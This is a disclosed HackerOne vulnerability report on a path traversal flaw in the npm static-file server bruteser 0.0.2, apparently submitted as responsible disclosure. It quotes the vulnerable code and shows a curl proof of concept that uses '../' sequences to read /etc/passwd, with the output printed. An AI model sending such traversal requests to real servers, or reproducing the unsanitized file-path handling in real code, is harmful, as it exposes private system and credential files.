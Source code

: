 # [bruteser] Path Traversal allows to read content of arbitrary file

## Report Details
- **Report ID**: 342066
- **URL**: https://hackerone.com/reports/342066
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-04-23T13:25:53.186Z
- **Disclosed**: 2018-07-04T19:41:30.036Z

## Reporter
- **Username**: bl4de
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report Path Traversal in ```bruteser``` module.
It allows to read content of any arbitrary file from the server where ```bruteser``` is installed and run.

## Module

**module name:** bruteser
**version:** 0.0.2
**npm page:** https://www.npmjs.com/package/bruteser

### Module Description

BruteSer - server can be used for any type of static files. Just put your files to "public" folder, run server.js and access localhost:8080/your_file.html

If type localhost:8080 it will run index.html by default

### Module Stats

N/A, this module is new and rarely used, but I just wanted maintainer to be aware of the issue as the module is available in public npm directory.

## Vulnerability Description

Path Traversal vulnerability in bruteser module allows to go up in directory tree and read content of any file, like ```/etc/passwd```

Vulnerability exists, because ```bruteser``` uses variable ```filepath``` without any protection against Path Traversal attacks:

```javascript
// node_modules/bruteser/server.js, line 8 (some lines removed)


	var filepath = req.url;
	if (filepath=='/') {
		var filepath = '/index.html';
	}

	var ext = path.extname(filepath);

    // REMOVED

	fs.readFile('public'+filepath, function (err, data){
		if (err) {
			if (filepath === '/index.html') {
				res.end("It seems there is no index.html file in 'public' directory");
			} else {
				res.end("There is no file by this address");
			}

			

		}
		res.end(data);
	});
   
```


## Steps To Reproduce:

Install ```bruteser``` module:

```
$ npm install bruteser
```

Run ```bruteser```:

```
$ node ./node_modules/bruteser/server.js 
Server is running on port 8080


```

Run following curl command to retrieve content of ```/etc/passwd``` (adjust amount of ../ to reflect your system):

```
$ curl -v --path-as-is http://localhost:8080/../../../../../../../../etc/passwd
*   Trying ::1...
* Connected to localhost (::1) port 8080 (#0)
> GET /../../../../../../../../etc/passwd HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Mon, 23 Apr 2018 13:15:43 GMT
< Connection: keep-alive
< Transfer-Encoding: chunked
< 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
(...)
mysql:x:125:132:MySQL Server,,,:/nonexistent:/bin/false
* Connection #0 to host localhost left intact
```

## Patch

```filepath``` should be sanitized

## Supporting Material/References:

- Operating system: Ubuntu 16.04
- Node.js 8.9.4
- npm v. 5.6.0
- curl 7.47.0

## Wrap up

- I contacted the maintainer to let him know: [N] 
- I opened an issue in the related repository: [N] 


Regards,

Rafal 'bl4de' Janicki

## Impact

This vulnerability allows an attacker to read content of arbitrary files from the machine where ```bruteser``` is running

## Attachments
No attachments
